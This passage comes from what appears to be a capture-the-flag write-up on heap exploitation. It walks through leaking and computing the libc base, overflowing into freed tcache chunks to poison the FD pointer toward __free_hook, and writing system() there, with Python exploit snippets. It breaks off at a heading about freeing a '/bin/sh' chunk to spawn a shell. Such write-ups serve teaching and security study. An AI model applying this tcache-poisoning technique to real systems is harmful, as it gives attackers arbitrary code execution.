 Then, to calculate the base of libc, we need to find the offset of the leak from the base. We can do this by obtaining the leak, then attach gdb to the process and run the command "vmmap" to find the base of libc. The leak should be subtracted with the base to find the offset. In my case, 0x007f99c0dd0be0 is the leak and 0x007f99c0be5000 is the base. We do this so that we can automatically obtain the libc address everytime the code is executed.

## Step 2 : Overflow into a free'd chunk to modify its FD and BK pointers to point to __free_hook

```python
create("BBBB") # 3
create("CCCC") # 4
create("DDDD") # 5
delete(5)
delete(4)
```

We will create a few chunks and free some of them.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/474118db-717c-458a-afca-ffd045d324ba)

The 2 chunks that we free'd are now in the tcache

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/ba7e9adf-286b-454b-b436-08ad58224b0e)

These are the 3 chunks that we created. The 2 chunks that we free'd now contain pointers to the next chunk. We will change this pointer to point to __free_hook_

```py
edit(3, b"A"*32 + p64(0) + p64(0x31) + p64(free_hook))
```

Overflow to the next chunk and change its FD pointer.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/a95beef7-aa00-4c2a-a588-9fcb9f4af177)

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/bedfb51a-7345-45f8-97b9-819b27fd5952)

From the images above, we can see that we have successfully tricked the heap manager to think that theres a free chunk inside libc.

## Step 3 : Create a chunk inside __free_hook and modify it to point to system()

```py
create(p64(libc.sym["system"])) # 6
create(p64(libc.sym["system"])) # 7
```

Now, when we allocate new chunks, the chunk that will be returned will be from the tcache, and since we have poisoned the tcache, it will return a chunk thats located in __free_hook. All we have to do is just add system() inside it.

## Step 4 : Call free() on a chunk with "/bin/sh"
